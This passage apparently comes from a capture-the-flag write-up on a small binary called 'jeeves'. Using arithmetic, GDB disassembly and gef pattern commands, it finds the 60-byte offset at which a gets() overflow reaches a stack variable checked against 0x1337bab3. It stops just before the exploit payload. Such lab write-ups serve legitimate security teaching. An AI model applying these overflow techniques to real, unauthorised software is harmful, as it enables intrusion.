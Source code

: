 Using the power of basic arithmetic:

`0x48 - 0xc = 0x3c or 60`

Another approach to determine this is by using "efficient brute force." We can dump the disassembly with GDB:

```bash
$ gdb -q ./jeeves
gef➤ disas main
...<snip>...
   0x00005555555551f5 <+12>:    mov    DWORD PTR [rbp-0x4],0xdeadc0d3
   0x00005555555551fc <+19>:    lea    rdi,[rip+0xe05]        # 0x555555556008
...<snip>...
   0x0000555555555214 <+43>:    mov    eax,0x0
   0x0000555555555219 <+48>:    call   0x5555555550d0 <gets@plt>
   0x000055555555521e <+53>:    lea    rax,[rbp-0x40]
...<snip>...
   0x0000555555555231 <+72>:    call   0x5555555550a0 <printf@plt>
   0x0000555555555236 <+77>:    cmp    DWORD PTR [rbp-0x4],0x1337bab3
   0x000055555555523d <+84>:    jne    0x5555555552a8 <main+191>
   0x000055555555523f <+86>:    mov    edi,0x100
   0x0000555555555244 <+91>:    call   0x5555555550e0 <malloc@plt>
...<snip>...

```

From the disassembly, we can observe where `0xdeadc0d3` is loaded (at 0x00005555555551f5), where the `gets` call occurs (at 0x0000555555555219), and where `key` is compared to `0x1337bab3` (at 0x0000555555555236). First, let's set a breakpoint at 0x0000555555555236. If you don't have the [GDB-gef](https://github.com/hugsy/gef) plugin, you can use an online tool like [Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to generate the input.

```bash
gef➤ b *0x0000555555555236
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef2'
gef➤ r
...<hit-breakpoint>
gef➤  pattern offset $rbp-0x4
[+] Searching for '6161616169616161'/'6161616961616161' with period=8
[+] Found at offset 60 (little-endian search) likely
gef➤  
```

Again, we see that the offset is 60 bytes.

## Exploiting the Buffer Overflow

Lastly, we need to exploit the buffer overflow to obtain the flag. To achieve this, we'll overwrite `rbp-0x4` with `0x1337bab3`. Let's proceed with that:
